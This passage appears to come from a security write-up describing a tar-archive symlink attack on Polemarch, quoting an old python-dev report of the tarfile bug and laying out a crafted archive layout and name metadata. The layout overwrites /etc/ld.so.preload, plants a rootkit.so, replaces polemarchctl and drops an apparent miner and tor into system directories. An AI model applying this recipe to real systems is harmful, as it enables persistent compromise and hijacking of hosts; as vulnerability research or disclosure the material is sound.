 
We are able to overwrite several files by following https://mail.python.org/pipermail/python-dev/2007-August/074290.html:
> Another variety of this bug is a symlink one: if tar contains files like:
> ./aaaa-directory -> /etc
> ./aaaa-directory/passwd
> then the "aaaa-directory" symlink would be created first and /etc/passwd
> will be overwritten once again.

Meaning we will create a tar file with the following structure:

``` 
├── aaaa-directory -> /etc
├── ld.so.preload

├── bbbb-directory -> /usr/local/lib
├── rootkit.so

├── cccc-directory -> /opt/polemarch/bin
├── polemarchctl

├── dddd-directory -> /usr/bin
├── xmring
└── tor
```

And changing the **name metadata** of the different files in the following way:

```
# /etc directory
aaaa-directory -> /etc
  - name: DIRECTORY_EXPLOIT/aaaa-directory
ld.so.preload
  - name: DIRECTORY_EXPLOIT/aaaa-directory/ld.so.preload

# /usr/local/lib directory
bbbb-directory -> /usr/local/lib
  - name: DIRECTORY_EXPLOIT/bbbb-directory
rootkit.so
  - name: DIRECTORY_EXPLOIT/bbbb-directory/rootkit.so

# /opt/polemarch/bin directory
cccc-directory -> /opt/polemarch/bin
  - name: DIRECTORY_EXPLOIT/cccc-directory
polemarchctl
  - name: DIRECTORY_EXPLOIT/cccc-directory/polemarchctl

# /usr/bin directory
dddd-directory -> /usr/bin
  - name: DIRECTORY_EXPLOIT/dddd-directory
xmring
  - name: DIRECTORY_EXPLOIT/dddd-directory/xmring
```

In this way we are able to overwrite files by using symbolic links, as we do not have permissions to overwrite existing files.

